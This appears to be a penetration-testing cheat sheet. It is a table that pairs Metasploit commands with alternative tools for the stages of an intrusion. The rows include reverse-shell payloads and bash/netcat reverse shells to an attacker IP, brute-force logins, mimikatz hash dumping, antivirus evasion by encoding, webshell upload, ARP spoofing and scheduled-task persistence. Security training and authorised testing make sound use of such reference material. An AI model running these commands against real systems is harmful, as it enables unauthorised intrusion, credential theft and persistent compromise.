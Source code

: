 | **Action**                               | **Metasploit Command**                                                                                                                                | **Alternative Commands & Tools**                                                                                                    |                                  |
| ---------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| **Start a reverse shell listener**       | `use exploit/multi/handler`<br>`set payload windows/meterpreter/reverse_tcp`<br>`set LHOST <attacker-ip>`<br>`set LPORT <attacker-port>`<br>`exploit` | `nc -lvnp <port>`<br>`socat TCP-LISTEN:<port> -`<br>`powercat -l -p <port>`                                                         |                                  |
| **Generate a reverse shell payload**     | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f exe > shell.exe`                                            | `msfvenom (standalone)`<br>`shellter`<br>`veil`<br>`empire`                                                                         |                                  |
| **Port scanning**                        | `use auxiliary/scanner/portscan/tcp`<br>`set RHOSTS <target-ip>`<br>`set PORTS <port-range>`<br>`run`                                                 | `nmap -p <port-range> <target-ip>`<br>`masscan -p <port-range> <target-ip>`<br>`rustscan <target-ip>`                               |                                  |
| **Brute-force login**                    | `use auxiliary/scanner/ssh/ssh_login`<br>`set RHOSTS <target-ip>`<br>`set USERNAME <user>`<br>`set PASSWORD <pass>`<br>`run`                          | `hydra -l <user> -p <pass> <target-ip> ssh`<br>`medusa -h <target-ip> -u <user> -p <pass>`<br>`ncrack -p <port> ssh://<target-ip>`  |                                  |
| **Password cracking**                    | N/A                                                                                                                                                   | `hashcat -a 0 -m <hash-type> <hashes.txt> <wordlist>`<br>`john --wordlist=<wordlist> <hashes.txt>`                                  |                                  |
| **Gaining shell access**                 | `use exploit/windows/smb/psexec`<br>`set payload windows/meterpreter/reverse_tcp`<br>`set RHOST <target-ip>`<br>`run`                                 | `psexec.py <domain>/<user>@<target-ip>`<br>`smbexec.py`<br>`crackmapexec smb <target-ip> -u <user> -p <pass> --exec-method smbexec` |                                  |
| **Privilege escalation (local exploit)** | `use exploit/windows/local/bypassuac`<br>`set SESSION <session-id>`<br>`run`                                                                          | `windows-exploit-suggester.py`<br>`Linux Kernel Exploits (dirtycow.c)`<br>`BeRoot (Windows/Linux)`                                  |                                  |
| **File upload**                          | `meterpreter > upload <file>`                                                                                                                         | `nc <attacker-ip> <port> < <file>`<br>`scp <file> <user>@<target-ip>:/path/to/destination`<br>`curl -T <file> http://<target-ip>`   |                                  |
| **File download**                        | `meterpreter > download <file>`                                                                                                                       | `nc <attacker-ip> <port> > <file>`<br>`scp <user>@<target-ip>:/path/to/file <destination>`<br>`wget http://<target-ip>/<file>`      |                                  |
| **Hashdump**                             | `use post/windows/gather/hashdump`<br>`set SESSION <session-id>`<br>`run`                                                                             | `mimikatz.exe "privilege::debug" "lsadump::sam"`<br>`impacket-secretsdump <domain>/<user>@<target-ip>`                              |                                  |
| **Bypass Antivirus**                     | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -e x86/shikata_ga_nai -f exe > evilshell.exe`                  | `veil-framework`<br>`shellter`<br>`obfuscation techniques (e.g., `obfuscator.py`)`                                                  |                                  |
| **Reverse TCP shell via Bash**           | N/A                                                                                                                                                   | `bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1`<br>`mkfifo /tmp/s; nc <attacker-ip> <port> < /tmp/s                                 | /bin/sh >/tmp/s 2>&1; rm /tmp/s` |
| **Persistence**                          | `use exploit/windows/local/persistence`<br>`set SESSION <session-id>`<br>`run`                                                                        | `schtasks /create /tn <task-name> /tr <payload.exe> /sc onlogon /ru SYSTEM`<br>`cronjobs (Linux)`                                   |                                  |
| **Credential harvesting**                | `use auxiliary/gather/http_proxy`<br>`run`                                                                                                            | `Responder.py`<br>`mitm6`<br>`inveigh`                                                                                              |                                  |
| **DNS Enumeration**                      | `use auxiliary/gather/dns_enum`<br>`set DOMAIN <target-domain>`<br>`run`                                                                              | `dig <target-domain>`<br>`dnsrecon -d <target-domain>`<br>`dnsenum <target-domain>`                                                 |                                  |
| **SMB Enumeration**                      | `use auxiliary/scanner/smb/smb_version`<br>`set RHOSTS <target-ip>`<br>`run`                                                                          | `smbclient -L //<target-ip>`<br>`enum4linux <target-ip>`<br>`crackmapexec smb <target-ip>`                                          |                                  |
| **ARP Spoofing**                         | `use auxiliary/spoof/arp`<br>`set RHOSTS <target-ip>`<br>`run`                                                                                        | `arpspoof -i <interface> -t <target-ip> <gateway-ip>`<br>`ettercap -T -M arp:remote /<target-ip>/ /<gateway-ip>/`                   |                                  |
| **Network Sniffing**                     | `use auxiliary/sniffer`                                                                                                                               | `tcpdump -i <interface>`<br>`wireshark`                                                                                             |                                  |
| **Web application fuzzing**              | `use auxiliary/scanner/http/dir_scanner`                                                                                                              | `ffuf -u http://<target-ip>/FUZZ -w wordlist.txt`<br>`gobuster dir -u http://<target-ip> -w wordlist.txt`                           |                                  |
| **Webshell upload**                      | `use exploit/unix/webapp/php_webshell`                                                                                                                | `curl -F "file=@webshell.php" http://<target-ip>/upload.php`<br>`nc <attacker-ip> <port> < webshell.php`                            |                                  |
| **RDP brute-force**                      | `use auxiliary/scanner/rdp/rdp_scanner`<br>`set RHOSTS <target-ip>`<br>`run`                                                                          | `hydra -l <user> -p <pass> rdp://<target-ip>`<br>`crowbar -b rdp -U <user-list> -C <password-list> -s <target-ip>`                  |                                  |
